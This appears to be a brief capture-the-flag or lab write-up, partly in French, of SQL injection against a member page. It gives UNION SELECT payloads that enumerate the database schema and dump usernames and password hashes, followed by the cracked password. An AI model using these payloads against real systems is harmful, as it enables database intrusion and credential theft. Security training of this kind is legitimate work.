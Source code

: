 /index.php?page=member

1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables
5 union all select table_name,column_name from information_schema.columns

table_schema: Member_Brute_Force
table_name: db_default
columns: id, username, password
5 union all select 1,concat(id,0x3a,username,0x3a,password) from Member_Brute_Force.db_default
=> 1:root:3bf1114a986ba87ed28fc1b5884fc2f8
=> 2:admin:3bf1114a986ba87ed28fc1b5884fc2f8
Sur internet on "dehash" ce mdp qui donne: shadow


table_schema: Member_Sql_Injection
table_name: users
columns: user_id, first_name, last_name, town, country, planet, Commentaire, countersign

